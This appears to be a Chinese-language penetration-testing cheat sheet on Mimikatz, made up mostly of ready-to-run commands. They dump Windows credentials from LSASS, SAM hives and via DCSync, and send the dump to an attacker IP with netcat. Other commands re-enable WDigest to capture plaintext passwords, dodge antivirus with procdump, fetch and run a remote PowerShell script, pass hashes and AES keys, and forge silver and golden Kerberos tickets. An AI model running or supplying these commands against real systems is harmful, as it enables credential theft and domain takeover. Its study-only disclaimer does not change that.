






# Mimikatz

<p align="center">
    
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**项目地址**
- https://github.com/gentilkiwi/mimikatz

**文章 & Reference**
- [九种姿势运行 Mimikatz](https://www.freebuf.com/articles/web/176796.html)
- [Mimikatz 使用小技巧](https://www.webshell.cc/5343.html)
- [域渗透——Dump Clear-Text Password after KB2871997 installed](https://wooyun.js.org/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Dump%20Clear-Text%20Password%20after%20KB2871997%20installed.html)

---

# 基本使用

提权
```bash
privilege::debug
```

抓取密码
```bash
sekurlsa::logonpasswords
```

输出
```bash
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir
# 记录 Mimikatz 输出
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
# 输出到 log.txt
```

输出传输到远程机器
```bash
# Attacker 执行
nc -lvp 4444

# Victim 执行
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit | nc.exe -vv 192.168.1.1 4444
# 192.168.1.1 为Attacker IP
```

通过 nc 远程执行
```bash
# Victim 执行
nc -lvp 443

# Attacker 执行
nc.exe -vv 192.168.1.2 443 -e mimikatz.exe
# 192.168.1.2 为 Victim IP
```

若管理员有每过几天就改密码的习惯,但是 mimikatz 抓取到的密码都是老密码,用 QuarksPwDump 等抓的 hash 也是老 hash,新密码却抓不到的情况下
```bash
privilege::debug
misc::memssp
```
记录的结果在 `c:/windows/system32/mimilsa.log`

---

# 无法抓取 windows 明文密码的解决方法

在 KB2871997 之前， Mimikatz 可以直接抓取明文密码。

微软在 win7 之后就打了补丁 kb2871997，当服务器安装 KB2871997 补丁后，系统默认禁用 Wdigest Auth ，内存（lsass 进程）不再保存明文口令。Mimikatz 将读不到密码明文。

但由于一些系统服务需要用到 Wdigest Auth，所以该选项是可以手动开启的。（开启后，需要用户重新登录才能生效）

以下是支持的系统:
- Windows 7
- Windows 8
- Windows 8.1
- Windows Server 2008
- Windows Server 2012
- Windows Server 2012R 2

**开启 Wdigest Auth**
- cmd
    ```bash
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
    ```

- powershell
    ```bash
    Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
    ```

- meterpreter
    ```bash
    reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogon
    ```

**关闭 Wdigest Auth**

- cmd
    ```bash
    reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
    ```

- powershell
    ```bash
    Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 0
    ```

- meterpreter
    ```bash
    reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCreden
    ```

**让管理员重新登录**

在开启 Wdigest Auth 后，需要管理员重新登录才能抓明文密码。

强制锁屏

- cmd
    ```bash
    rundll32 user32.dll,LockWorkStation
    ```

- powershell
    ```powershell
    Function Lock-WorkStation
    {
    $signature = @"
    [DllImport("user32.dll", SetLastError = true)]
    public static extern bool LockWorkStation();
    "@
    $LockWorkStation = Add-Type -memberDefinition $signature -name "Win32LockWorkStation" -namespace Win32Functions -passthru
    $LockWorkStation::LockWorkStation() | Out-Null
    }
    Lock-WorkStation
    ```
    ```powershell
    powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://x.x.x.x/Lock-WorkStation.ps1');"
    ```

    重新读取，可读到明文密码。

---

# 离线抓取

**文章**
- [Win10及2012系统以后的明文抓取方式](https://www.anquanke.com/post/id/175364)
- [Mimikatz明文密码抓取](https://uknowsec.cn/posts/notes/Mimikatz%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96.html)
- [mimikatz-抓取windows明文密码](http://rtshield.top/2019/09/02/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7-mimikatz-%E6%8A%93%E5%8F%96windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81/)
- [利用Mimikatz提取虚拟机内存中的密码](https://www.freebuf.com/articles/system/44620.html)

**直接转储**

在任务管理器找到 lsass.exe，右键创建转储文件

procdump 是微软的官方工具，不会被杀，所以如果你的 mimikatz 不免杀，可以用 procdump 导出 lsass.dmp 后拖回本地抓取密码来规避杀软。
```bash
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

然后用 mimikatz 加载导出来的内存再抓 hash
```bash
sekurlsa::minidump c:\users\test\appdata\local\temp\lsass.dmp
sekurlsa::logonpasswords full
```

**[SharpDump](https://github.com/GhostPack/SharpDump)** c# 免杀抓明文

在管理员权限下运行生成 debug480.bin

特别注意,dump 的文件默认是 bin 后缀,拖到本地机器以后,需要自行把 bin 重命名为 zip 的后缀,然后正常解压处里面的文件,再丢给 mimikatz 去读取即可,如下

mimikatz 加载 dump 文件
```bash
sekurlsa::minidump debug480
sekurlsa::logonPasswords full
```

**sam + mimikatz**

> 注意：本地复原机器必须与目标机器一致，且需要在系统权限下执行

从 sam 中提取目标系统用户 hash
```bash
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
```

将上述三个文件复制到攻击机本地，然后使用 mimikatz 获取用户 hash
```bash
lsadump::sam /system:system.hiv /sam:sam.hiv /security:security.hiv
```

**windbg 中载入 mimilib 模块**

在 windbg 中载入 dmp 文件





运行. symfix，然后执行. reload


windbg 中载入 mimilib 模块


查找 lsass 进程


将镜像 lsass 环境转换到本机中


载入 mimikatz


---

# NTDS.DIT

使用 Mimikatz 提取 Active Directory hash
```bash
privilege::debug
mimikatz lsadump::lsa /inject exit
sekurlsa::minidump c:\temp\lsass.dmp      使用 Mimikatz 转储 LSASS 内存
sekurlsa::logonpasswords
```

**DCSync**

Mimikatz 有一个功能（dcsync），利用目录复制服务（DRS）从 NTDS.DIT 文件中检索密码哈希值。该技术消除了直接从域控制器进行认证的必要性，因为它可以从域管理员环境中属于域的任意系统执行。

运行 DCSync 需要特殊权限。管理员，域管理员或企业管理员以及域控制器计算机帐户的任何成员都能够运行 DCSync 来提取密码数据。请注意，只读域控制器不仅可以默认为用户提取密码数据。
```bash
privilege::debug
lsadump::dcsync /domain:ffffffff0x.com /all /csv
```

通过使用 /user 参数指定域用户名，Mimikatz 会将该指定用户的所有帐户信息转储包括哈希值。
```bash
lsadump::dcsync /domain:ffffffff0x.com /user:krbtgt
lsadump::dcsync /domain:ffffffff0x.com /user:test
```

可以直接在域控制器中执行 Mimikatz，通过 lsass.exe 进程 dump 密码哈希
```bash
privilege::debug
lsadump::lsa /inject
```

---

# PTH

在对 Windows 系统进行渗透测试过程中，如果获取目标机器的系统权限，则可以通过 hashdump 的方式获取目标机器历史登录信息，包括用户名和用户明文密码或者用户 hash，如果无法直接获取目标用户明文密码，则可以通过 pth 的方式远程登录目标机器

**受限管理模式**

通过 pth 的方式远程登录有一个限制：受限管理模式(Restricted Admin mode)
- Windows8.1 和 Windows Server 2012(R2)默认支持该功能
- Win7 和 Windows Server 2008(R2)默认不支持该功能，需要安装补丁 KB2871997 和 KB2973351

1. 安装补丁 KB3126593,其原理与下述的修改注册表的原理是一致的
    - https://support.microsoft.com/en-us/help/2973351/microsoft-security-advisory-registry-update-to-improve-credentials-pro

2. 修改注册表
    ```bash
    HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa

    # 新建 DWORD 键值 DisableRestrictedAdmin，值为 0，代表开启;值为 1，代表关闭
    REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
    ```

    在获取目标系统权限之后，通过 cmd 交互，可以轻松关闭受限管理模式

3. mimikatz 修改注册表

    如果你有一个用户的 NTLM 哈希值，而这个用户有设置注册表的权限，你可以使用 Powershell 来启用它，然后通过 RDP 登录。
    ```bash
    mimikatz.exe privilege::debug "sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:powershell.exe"
    ```
    ```bash
    Enter-PSSession -Computer <Target>
    New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0"
    ```

4. 使用攻击机自己的用户及 Hash 进行远程登录
    ```bash
    mstsc.exe /restrictedadmin
    ```
    如果当前系统支持受限管理模式，则上述命令执行后会直接弹出远程登录的登录界面；如果当前系统不支持受限管理模式，则上述命令执行后会弹出远程桌面的参数说明

    如果上述命令顺利执行，输入目标机器的 IP 和端口，可直接进行远程登录，不需要输入任何口令，这种方式会使用当前攻击机的用户名和用户 hash 尝试登录目标机器

    开启 Restricted Admin mode
    ```bash
    REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
    ```

**mimikatz 进行 PtH**

1. (工作组)通过 pth 进行远程登录(cmd)
    ```bash
    mimikatz.exe privilege::debug

    mimikatz.exe privilege::debug "sekurlsa::pth /user:用户名  /domain:目标机器IP  /ntlm:密码哈希"

    mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:192.168.1.1 /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
    ```

2. (域)通过 pth 进行远程登录(cmd)
    ```bash
    mimikatz.exe privilege::debug
    mimikatz.exe sekurlsa::logonpasswords

    mimikatz.exe privilege::debug "sekurlsa::pth /domain:目标机器的域 /user:目标机器的用户名 /ntlm:用户名对应的hash"

    mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:test.com /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
    ```

3. 通过 pth 进行远程登录(mstsc)
    ```bash
    # 管理员权限下执行以下命令:
    mimikatz.exe privilege::debug "sekurlsa::pth /domain:目标机器的域 /user:目标机器的用户名 /ntlm:用户名对应的hash /run:mstsc.exe /restrictedadmin"
    ```

    RDP 限制管理模式是建立在 Kerberos 基础上的。看一下网络流量，可以看到 RDP 客户端代表模拟的用户请求 ticket，这没有问题，因为我们只需要通过哈希来验证 Kerberos。

**相关文章**
- [mimikatz-pth with rdp](http://rtshield.top/2019/08/31/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7-mimikatz-pth_with_rdp/)
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth
- [Passing the hash with native RDP client (mstsc.exe)](https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)

---

# PTT

## Silver_Tickets

导出 Server Hash
```bash
mimikatz.exe "privilege::debug” "sekurlsa::logonpasswords" "exit" > log.txt
```

使用 mimikatz 伪造白银票据：
```bash
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt" exit
```

**例子:访问域控上的 cifs 服务(Windoiws 主机间的文件共享)**

在域控上执行以下命令获取本地账户 NTLM Hash 和 SID

```bash
mimikatz.exe "privilege::debug” "sekurlsa::logonpasswords" "exit" > log.txt
```



然后将生成白银票据注入到内存中,并查看票据生成情况。查看目标的文件共享服务成功：
```bash
kerberos::golden /domain:ffffffff0x.com /sid:S-1-5-21-1112871890-2494343973-3486175548 /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /rc4:f9ca454a3544172034a8666a79eda95e /service:cifs /user:test /ptt

# 这里的 cifs 是指的文件共享服务，有了 cifs 服务权限，就可以访问域控制器的文件系统
```

访问测试



---

## Golden_Tickets

dump krbtgt hash
```bash
privilege::debug
lsadump::lsa /patch

# 或

lsadump::dcsync /domain:<域名> /user:krbtgt
```

使用 mimikatz 伪造的黄金票据：
```bash
kerberos::golden /user:<用户名> /domain:<域名> /sid:<域SID> /krbtgt:<Hash> /ticket:test.kiribi
```

利用 mimikatz 的 kerberos::ptt 将黄金票据 test.kiribi 注入到内存中：
```bash
# 清除缓存的票据
kerberos::purge

# 注入黄金票据 test.kiribi
kerberos::ptt test.kiribi

# 列出票据
kerberos::list
```

> 导入的票据在20分钟内有效，过期之后再次导入就行

现在可以访问域控共享目录，还能在 DC 上远程执行 psexec

但是需要注意的是用 psexec 远程执行命令的时候，需要不能使用 IP 访问。使用 NetBios 的服务名访问才会走 Kerberos 认证，达到伪造凭据的攻击

**例子**

在数据库服务器上，利用域管理员的权限获得 krbtgt 的 NTLM 哈希 和 SID

使用 Mimikatz 抓取 Krbtgt 账号的密码
```bash
mimikatz.exe "lsadump::dcsync /domain:ffffffff0x.com /user:krbtgt" > log.txt
```



得到 krbtgt 哈希之后，使用 mimikatz 的 `kerberos::golden` 生成黄金票据 `test.kiribi`：
```bash
kerberos::golden /user:administrator /domain:FFFFFFFF0X.com /sid:S-1-5-21-1112871890-2494343973-3486175548 /krbtgt:743093920acd8d427323c24c0e2c52c2 /ticket:test.kiribi
```
`/admin` 为伪造的用户名，用户名可以任意伪造 `/domain` 为目标的域名 `/sid` 为目标域名的 SID `/krbtgt` 为 krbtgt 账户密码的 NTLM Hash `/ticket` 为要伪造的黄金票据的名称

注入黄金票据
```bash
kerberos::ptt test.kiribi
```

访问测试



---

# PTK

```bash
# 获取用户的 aes key
mimikatz "privilege::debug" "sekurlsa::ekeys"

# 注意查看 aes256_hmac 和 aes128_hmac

mimikatz "privilege::debug" "sekurlsa::pth /user:test /domain:test.com /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288"
```

域控未打 KB2871997 补丁前，无法使用 Key 传递攻击
